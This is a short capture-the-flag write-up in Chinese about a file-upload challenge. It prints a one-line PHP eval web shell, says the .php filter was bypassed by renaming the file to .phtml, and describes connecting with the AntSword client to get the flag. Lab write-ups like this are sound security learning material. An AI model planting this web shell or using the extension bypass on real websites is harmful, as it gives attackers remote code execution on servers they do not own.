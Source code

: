 
一打開他要我上传一些 -> 文件上传漏洞 -> 上传一句話木馬 -> 網站有shell，不能上传.php -> 改成xxx.phtml
```php
<?php
  @eval($_REQUEST["ant"]);
 ?>
```
然後用蚁剑連結 -> 看到flag

|知識點||
|----|-----|
|蚁剑的使用方法|https://zhuanlan.zhihu.com/p/367151320|
|后缀改|phtml|

#我可用了半天才知道蚁剑怎樣用
